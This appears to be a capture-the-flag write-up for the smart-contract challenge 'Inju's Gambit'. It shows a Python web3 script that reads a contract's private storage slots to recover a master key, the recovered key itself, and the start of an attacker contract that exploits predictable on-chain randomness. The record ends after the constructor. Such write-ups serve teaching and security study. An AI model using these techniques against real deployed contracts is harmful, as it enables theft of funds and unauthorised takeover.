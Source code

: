 # Inju's Gambit

> Inju owns all the things in the area, waiting for one worthy challenger to emerge.
>  Rumor said, that there many ways from many different angle to tackle Inju.
>  Are you the Challenger worthy to oppose him?

Attached files: [Setup.sol](./source/Setup.sol), [ChallengeManager.sol](./source/ChallengeManager.sol), [Privileged.sol](./source/Privileged.sol)

## Challenge Outline
As usual, the goal of the challenge is to make the isSolved function in the setup contract return true.
```solidity
function isSolved() public view returns(bool){
    return address(privileged.challengeManager()) == address(0);
}
```

## Approach
Our goal is to set the challengeManager address in the privileged contract to the null address (0x000...). I started looking though the Privileged.sol contract for a function that coudl accomplish this. Fortunately, the fireManager functions appears to do just that:
```solidity
function fireManager() public onlyOwner{
    challengeManager = address(0);
}
```
However, to call fireManager, we first need to become the owner of the privileged contract. The current owner is the contract that deployed it: the challenge manager contract. I then reviewed the challenge manager contract for a function that would either allow us to call fireManager or become the owner ourselves.
```solidity
function challengeCurrentOwner(bytes32 _key) public onlyChosenChallenger{
    if(keccak256(abi.encodePacked(_key)) == keccak256(abi.encodePacked(masterKey))){
        privileged.setNewCasinoOwner(address(theChallenger));
    }
}
```
The challengeCurrentOwner function allows us to become the owner if we meet two conditions: being the chosen challenger and having the master key. 
### Obtaining the key
The `bytes32 private masterKey` means that the masterKey is a private variable and we cannot access it externally. Even though it is called private, it is still stored publicly on the blockchain, allowing us to read it from its storage slot. A contract's state variables are stored in storage slots and by reading these slots, we can find the value of the master key.
```python
from web3 import Web3

rpc_url = "http://45.32.119.201:44445/f03fa921-b78f-4d64-87b1-e25a5af93fd1"  # rpc endpoint
w3 = Web3(Web3.HTTPProvider(rpc_url))
if not w3.is_connected():
    print("Couldn't connect")
    exit(1)

def read_slot(address, slot):
    value = w3.eth.get_storage_at(address, slot)
    return value

contract_addr = "0x4635c4064F565f0a5ca43D4893a2a6977F2B2655"  # the address of the challengeManager contract
for x in range(10):
    key = read_slot(contract_addr, x)
    print(x, key, key.hex())
```
This is the Python script I used to read the first ten slots of the contract.
You can determine which slot a certain variable is stored in based on the order they are declared, but I was lazy and decided to just print them all out :P.  
Output:
```
0 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1f\x92\xa4\x06\xa6i\xaf\xf94\xe2*n\xd5\xcel\xf5|\xa3\x1f5' 0000000000000000000000001f92a406a669aff934e22a6ed5ce6cf57ca31f35
1 b'INJUINJUINJUSUPERKEYKEYKEYKEYKEY' 494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559
2 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' 0000000000000000000000000000000000000000000000000000000000000000
3 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xf8\xcfh>\x96\xae\xe5\x06wow\x06\x97\x86\xaaz\xf0+\x03\x90' 000000000000000000000000f8cf683e96aee506776f77069786aa7af02b0390
4 b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Ec\x91\x82D\xf4\x00\x00' 0000000000000000000000000000000000000000000000004563918244f40000
```
From the output, I think it is safe to assume that INJUINJUINJUSUPERKEYKEYKEYKEYKEY is our master key.

### Becoming the owner
After looking through the functions in ChallengeManager.sol, I noticed that the only function that would allow us to become the owner was the upgradeChallengerAttribute function. 
```solidity
function upgradeChallengerAttribute(uint256 challengerId, uint256 strangerId) public stillSearchingChallenger {
    ...
    uint256 gacha = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp))) % 4;

    if (gacha == 0){
        ...
    }else if (gacha == 1){
        if(privileged.getRequirmenets(challengerId).isRich == false){
            privileged.upgradeAttribute(challengerId, true, false, false, false);
        }else if(privileged.getRequirmenets(challengerId).isImportant == false){
            privileged.upgradeAttribute(challengerId, true, true, false, false);
        }else if(privileged.getRequirmenets(challengerId).hasConnection == false){
            privileged.upgradeAttribute(challengerId, true, true, true, false);
        }else if(privileged.getRequirmenets(challengerId).hasVIPCard == false){
            privileged.upgradeAttribute(challengerId, true, true, true, true);
            qualifiedChallengerFound = true;
            theChallenger = privileged.getRequirmenets(challengerId).challenger;
        }
    }
    ...
```
Calling this function four times when gacha is 1 will make us the challenger. To accomplish this, I wrote a smart contract that would only call upgradeChallengerAttribute if `uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp))) % 4 == 1`. But first, the contract would need to become a challenger by sending 5 eth to the approach function.
```solidity
    function approach() public payable {
        if(msg.value != 5 ether){
            revert CM_NotTheCorrectValue();
        }
        if(approached[msg.sender] == true){
            revert CM_AlreadyApproached();
        }
        approached[msg.sender] = true;
        challenger.push(msg.sender);
        privileged.mintChallenger(msg.sender);
    }
```
This function will add our contract to the list of challengers. Since the setup contract created two challengers in its constructor, our contract's challenger id will be 3. 

## Putting it all together
Now that we have an idea of how to solve the challenge, we just need to write the contract. For most of the challenges in this CTF, I used the Remix IDE.

### Importing
```solidity
import "./Privileged.sol";
import "./ChallengeManager.sol";
import "./Setup.sol";
```
This part should be self explanatory. We are importing the other .sol files so that our contract will be able to interact with the other contracts.

### State variables
```solidity
    Setup public setup;
    Privileged public privileged;
    ChallengeManager public challengeManager;
```
These state variables will hold a reference to the instances of the other contracts.

### Constructor
```solidity
    constructor(address _setup) payable {
        require(msg.value == 5 ether, "Need 5 ETH");
        
        setup = Setup(_setup);
        challengeManager = ChallengeManager(setup.challengeManager());
        privileged = Privileged(setup.privileged());

        challengeManager.approach{value: 5 ether}();
    }
```
The constructor is a special function that is run once when the contract is deployed. In the constructor, I first require five ether to be sent along with the deployment for when we call approach. I define the setup with the address of the setup contract, which is passed in as _setup, and find the addresses of challengeManager and privileged through setup. Finally, I call approach with five ether, making our contract a challenger.





